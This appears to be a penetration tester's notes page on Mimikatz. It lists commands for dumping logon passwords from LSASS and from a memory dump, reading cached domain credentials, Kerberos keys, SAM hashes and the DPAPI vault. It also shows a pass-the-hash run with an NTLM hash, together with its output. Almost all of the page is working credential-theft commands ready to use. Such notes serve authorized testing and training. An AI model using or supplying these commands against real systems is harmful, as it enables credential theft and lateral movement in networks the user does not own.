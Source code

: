 # Mimikatz



## Commands
``````powershell
# Logonpasswords
mimikatz sekurlsa::logonpasswords
# Logonpasswords on lsass dmp
mimikatz "log log.txt" "sekurlsa::minidump C:\Users\patri\Downloads\sql2.bin" "sekurlsa::logonPasswords"
# Get [[Domain Cached Credentials]]
mimikatz lsadump::cache
# Get [[eKeys]] Kerberos aes265_hmac
mimikatz sekurlsa::ekeys
# Get local account hashes [[Security Account Manager]]
mimikatz lsadump::sam
# Get [[Data Protection API (DPAPI)]]
mimikatz vault::list
``````

## Spawn process with injected credentials
Requires admin
``````sh
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:patrick /domain:edu.evil.corp /ntlm:2e8a408a8aec852ef2e458b938b8c071 /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
user    : patrick
domain  : edu.evil.corp
program : C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc
impers. : no
NTLM    : 2e8a408a8aec852ef2e458b938b8c071
  |  PID  13608
  |  TID  23228
  |  LSA Process is now R/W
  |  LUID 0 ; 3731125840 (00000000:de647650)
  \_ msv1_0   - data copy @ 000002B378344C10 : OK !
  \_ kerberos - data copy @ 000002B37859B388
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002B378209E28 (32) -> null
``````
